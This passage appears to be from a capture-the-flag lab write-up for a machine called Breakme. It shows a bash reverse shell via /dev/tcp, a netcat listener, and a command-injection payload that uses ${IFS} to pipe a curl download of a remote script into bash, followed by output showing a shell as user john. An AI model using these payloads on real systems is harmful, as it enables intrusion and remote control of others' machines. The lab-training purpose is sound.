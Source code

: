 <p>Knowing that command execution is possible, I crafted a reverse shell payload to gain a shell as John:</p>
<pre>
#!/bin/bash
bash -i >& /dev/tcp/&lt;IP&gt;/&lt;PORT&gt; 0>&1
</pre>
<p>Next, launch a python webserver in the same directory of the reverse shell payload and start a netcat listener:</p>
<pre>
python3 -m http.server 7777
nc -lnvp &lt;PORT&gt;
</pre>
<p>Finally, upload the reverse shell to the attacking machine using curl and execute:</p>
<pre>
|curl${IFS}&lt;YOUR_IP&gt;:&lt;PORT&gt;/shell.sh|bash
</pre>
<img src="/images/breakme/breakme_payload_rev_shell.webp" alt="burpsuite reverse shell payload" class="postImage">
<p>If everything went right, a shell as john should have spawned:</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1456
listening on [any] 1456 ...
connect to [10.9.235.177] from (UNKNOWN) [10.10.66.31] 44564
bash: cannot set terminal process group (538): Inappropriate ioctl for device
bash: no job control in this shell
john@Breakme:~/internal$   
</pre>
